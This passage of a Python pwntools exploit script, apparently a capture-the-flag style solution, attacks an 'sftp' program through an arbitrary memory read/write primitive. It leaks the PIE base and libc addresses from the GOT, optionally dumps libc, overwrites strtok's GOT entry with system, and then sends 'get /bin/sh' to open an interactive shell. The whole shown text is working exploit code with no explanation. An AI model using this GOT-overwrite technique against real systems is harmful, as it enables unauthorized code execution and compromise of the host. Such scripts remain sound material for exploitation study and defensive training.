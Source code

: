 ```python
	sftp.recvuntil("sftp> ")
	return data

def read_addr(address):
	return u64(read_mem(address))

def write_addr(address, value):
	setup_rw(address)
	sftp.sendline("put hacked")
	sftp.sendline("8")
	sftp.send(p64(value))
	sftp.recvuntil("sftp> ")

leaked_addr = read_addr(leak_location)
elf.address = leaked_addr - leak_value
log.info("PIE BASE:    " + hex(elf.address))

libc_puts = read_addr(elf.got["puts"])
libc_mmap = read_addr(elf.got["mmap"])
libc_rand = read_addr(elf.got["rand"])
# printing multiple in an attempt to identify the libc version
log.info("libc puts:   " + hex(libc_puts))
log.info("libc mmap:   " + hex(libc_mmap))
log.info("libc rand:   " + hex(libc_rand))

DUMP_LIBC = False
if DUMP_LIBC:
	# step 1: search backwards until we find the base of libc
	log.info("Locating libc base")
	libc_base = (libc_rand/0x1000)*0x1000
	while read_mem(libc_base, 4) != "\x7fELF":
		libc_base -= 0x1000
	log.info("libc base:   " + hex(libc_base))
	# step 2: dump libc in chunks
	BLOCK_SIZE = 0x1000
	with open("dumped_libc.so", "wb") as f:
		bytes_read = 0
		while True:
			dumped = read_mem(libc_base+bytes_read, BLOCK_SIZE)
			bytes_read += BLOCK_SIZE
			f.write(dumped)
			log.info("Dumped 0x{:x} bytes".format(bytes_read))

if TESTING:
	libc.address = libc_puts - libc.sym["puts"]
	log.info("libc base:   " + hex(libc.address))
	write_addr(elf.got["strtok"], libc.sym["system"])
else:
	SYSTEM_OFFSET = 0x45390 # taken from dumped_libc.so
	RAND_OFFSET = 0x3af60
	libc_system = libc_rand - RAND_OFFSET + SYSTEM_OFFSET
	write_addr(elf.got["strtok"], libc_system)

sftp.sendline("get /bin/sh") # w00t
sftp.interactive()
```
